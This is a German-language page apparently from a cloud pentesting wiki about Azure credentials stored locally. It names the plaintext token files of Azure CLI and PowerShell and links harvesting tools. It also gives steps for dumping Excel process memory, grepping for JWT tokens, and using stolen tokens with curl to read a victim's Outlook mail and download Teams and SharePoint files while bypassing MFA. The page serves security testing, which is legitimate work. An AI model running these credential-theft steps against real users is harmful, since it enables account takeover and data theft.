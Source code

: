 # Az - Lokale Cloud-Anmeldeinformationen

{{#include ../../../banners/hacktricks-training.md}}

## Lokale Token-Speicherung und Sicherheitsüberlegungen

### Azure CLI (Befehlszeilenschnittstelle)

Tokens und sensible Daten werden lokal von Azure CLI gespeichert, was Sicherheitsbedenken aufwirft:

1. **Zugriffstoken**: Im Klartext in `accessTokens.json` gespeichert, das sich unter `C:\Users\<username>\.Azure` befindet.
2. **Abonnementinformationen**: `azureProfile.json`, im selben Verzeichnis, enthält Abonnementdetails.
3. **Protokolldateien**: Der Ordner `ErrorRecords` innerhalb von `.azure` könnte Protokolle mit exponierten Anmeldeinformationen enthalten, wie z.B.:
- Ausgeführte Befehle mit eingebetteten Anmeldeinformationen.
- Über Tokens aufgerufene URLs, die potenziell sensible Informationen offenbaren.

### Azure PowerShell

Azure PowerShell speichert ebenfalls Tokens und sensible Daten, die lokal abgerufen werden können:

1. **Zugriffstoken**: `TokenCache.dat`, das sich unter `C:\Users\<username>\.Azure` befindet, speichert Zugriffstoken im Klartext.
2. **Secrets von Dienstprinzipalen**: Diese werden unverschlüsselt in `AzureRmContext.json` gespeichert.
3. **Token-Speicherfunktion**: Benutzer haben die Möglichkeit, Tokens mit dem Befehl `Save-AzContext` zu speichern, was vorsichtig verwendet werden sollte, um unbefugten Zugriff zu verhindern.

### Automatische Tools, um sie zu finden

- [**Winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
- [**Get-AzurePasswords.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/AzureRM/Get-AzurePasswords.ps1)

## Tokens im Speicher

Wie in [**diesem Video**](https://www.youtube.com/watch?v=OHKZkXC4Duw) erklärt, könnte einige Microsoft-Software, die mit der Cloud synchronisiert ist (Excel, Teams...), **Zugriffstoken im Klartext im Speicher speichern**. Daher könnte einfaches **Dumping** des **Speichers** des Prozesses und **Greppen nach JWT-Tokens** Ihnen Zugriff auf mehrere Ressourcen des Opfers in der Cloud gewähren, indem MFA umgangen wird.

Schritte:

1. Dumpen Sie die Excel-Prozesse, die mit dem EntraID-Benutzer synchronisiert sind, mit Ihrem bevorzugten Tool.
2. Führen Sie aus: `string excel.dmp | grep 'eyJ0'` und finden Sie mehrere Tokens in der Ausgabe.
3. Finden Sie die Tokens, die Sie am meisten interessieren, und führen Sie Tools über sie aus:
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
**Beachten Sie, dass diese Art von Zugriffstoken auch in anderen Prozessen gefunden werden kann.**

{{#include ../../../banners/hacktricks-training.md}}
